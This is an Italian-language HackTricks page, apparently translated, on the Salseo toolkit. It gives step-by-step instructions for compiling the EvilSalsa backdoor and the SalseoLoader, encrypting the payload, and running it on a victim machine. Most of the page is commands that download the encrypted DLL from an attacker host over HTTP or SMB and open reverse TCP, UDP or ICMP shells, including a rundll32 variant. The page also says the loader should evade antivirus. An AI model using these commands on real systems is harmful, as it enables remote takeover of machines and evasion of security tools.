 # Salseo

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}

## Compilare i binari

Scarica il codice sorgente da github e compila **EvilSalsa** e **SalseoLoader**. Avrai bisogno di **Visual Studio** installato per compilare il codice.

Compila questi progetti per l'architettura della macchina Windows dove intendi usarli (Se Windows supporta x64, compilali per quell'architettura).

Puoi **selezionare l'architettura** all'interno di Visual Studio nella **scheda "Build" a sinistra** in **"Platform Target".**

(\*\*Se non riesci a trovare queste opzioni, premi su **"Project Tab"** e poi su **"\<Project Name> Properties"**)

![](<../.gitbook/assets/image (839).png>)

Poi, costruisci entrambi i progetti (Build -> Build Solution) (All'interno dei log apparirà il percorso dell'eseguibile):

![](<../.gitbook/assets/image (381).png>)

## Preparare il Backdoor

Prima di tutto, dovrai codificare il **EvilSalsa.dll.** Per farlo, puoi usare lo script python **encrypterassembly.py** oppure puoi compilare il progetto **EncrypterAssembly**:

### **Python**
```
python EncrypterAssembly/encrypterassembly.py <FILE> <PASSWORD> <OUTPUT_FILE>
python EncrypterAssembly/encrypterassembly.py EvilSalsax.dll password evilsalsa.dll.txt
```
### Windows
```
EncrypterAssembly.exe <FILE> <PASSWORD> <OUTPUT_FILE>
EncrypterAssembly.exe EvilSalsax.dll password evilsalsa.dll.txt
```
Ok, ora hai tutto ciò di cui hai bisogno per eseguire tutto il Salseo: il **EvilDalsa.dll codificato** e il **binario di SalseoLoader.**

**Carica il binario SalseoLoader.exe sulla macchina. Non dovrebbero essere rilevati da alcun AV...**

## **Esegui il backdoor**

### **Ottenere una reverse shell TCP (scaricando dll codificata tramite HTTP)**

Ricorda di avviare un nc come listener della reverse shell e un server HTTP per servire l'evilsalsa codificato.
```
SalseoLoader.exe password http://<Attacker-IP>/evilsalsa.dll.txt reversetcp <Attacker-IP> <Port>
```
### **Ottenere una shell inversa UDP (scaricando dll codificata tramite SMB)**

Ricorda di avviare un nc come listener della shell inversa e un server SMB per servire l'evilsalsa codificato (impacket-smbserver).
```
SalseoLoader.exe password \\<Attacker-IP>/folder/evilsalsa.dll.txt reverseudp <Attacker-IP> <Port>
```
### **Ottenere una shell inversa ICMP (dll codificata già all'interno della vittima)**

**Questa volta hai bisogno di uno strumento speciale nel client per ricevere la shell inversa. Scarica:** [**https://github.com/inquisb/icmpsh**](https://github.com/inquisb/icmpsh)

#### **Disabilita le risposte ICMP:**
```
sysctl -w net.ipv4.icmp_echo_ignore_all=1

#You finish, you can enable it again running:
sysctl -w net.ipv4.icmp_echo_ignore_all=0
```
#### Esegui il client:
```
python icmpsh_m.py "<Attacker-IP>" "<Victm-IP>"
```
#### All'interno della vittima, eseguiamo la cosa salseo:
```
SalseoLoader.exe password C:/Path/to/evilsalsa.dll.txt reverseicmp <Attacker-IP>
```
## Compilare SalseoLoader come DLL esportando la funzione principale

Apri il progetto SalseoLoader utilizzando Visual Studio.

### Aggiungi prima della funzione principale: \[DllExport]

![](<../.gitbook/assets/image (409).png>)

### Installa DllExport per questo progetto

#### **Strumenti** --> **Gestore pacchetti NuGet** --> **Gestisci pacchetti NuGet per la soluzione...**

![](<../.gitbook/assets/image (881).png>)

#### **Cerca il pacchetto DllExport (utilizzando la scheda Sfoglia) e premi Installa (e accetta il popup)**

![](<../.gitbook/assets/image (100).png>)

Nella tua cartella di progetto sono apparsi i file: **DllExport.bat** e **DllExport\_Configure.bat**

### **Dis**installare DllExport

Premi **Disinstalla** (sì, è strano ma fidati, è necessario)

![](<../.gitbook/assets/image (97).png>)

### **Esci da Visual Studio ed esegui DllExport\_configure**

Basta **uscire** da Visual Studio

Poi, vai nella tua **cartella SalseoLoader** ed **esegui DllExport\_Configure.bat**

Seleziona **x64** (se intendi usarlo all'interno di una macchina x64, questo era il mio caso), seleziona **System.Runtime.InteropServices** (all'interno di **Namespace per DllExport**) e premi **Applica**

![](<../.gitbook/assets/image (882).png>)

### **Apri di nuovo il progetto con Visual Studio**

**\[DllExport]** non dovrebbe più essere contrassegnato come errore

![](<../.gitbook/assets/image (670).png>)

### Compila la soluzione

Seleziona **Tipo di output = Libreria di classi** (Progetto --> Proprietà SalseoLoader --> Applicazione --> Tipo di output = Libreria di classi)

![](<../.gitbook/assets/image (847).png>)

Seleziona **piattaforma x64** (Progetto --> Proprietà SalseoLoader --> Compilazione --> Target piattaforma = x64)

![](<../.gitbook/assets/image (285).png>)

Per **compilare** la soluzione: Compila --> Compila soluzione (All'interno della console di output apparirà il percorso della nuova DLL)

### Testa la DLL generata

Copia e incolla la DLL dove desideri testarla.

Esegui:
```
rundll32.exe SalseoLoader.dll,main
```
Se non appare alcun errore, probabilmente hai un DLL funzionante!!

## Ottieni una shell usando il DLL

Non dimenticare di usare un **server** **HTTP** e impostare un **listener** **nc**

### Powershell
```
$env:pass="password"
$env:payload="http://10.2.0.5/evilsalsax64.dll.txt"
$env:lhost="10.2.0.5"
$env:lport="1337"
$env:shell="reversetcp"
rundll32.exe SalseoLoader.dll,main
```
### CMD
```
set pass=password
set payload=http://10.2.0.5/evilsalsax64.dll.txt
set lhost=10.2.0.5
set lport=1337
set shell=reversetcp
rundll32.exe SalseoLoader.dll,main
```
{% hint style="success" %}
Impara e pratica il hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Impara e pratica il hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}
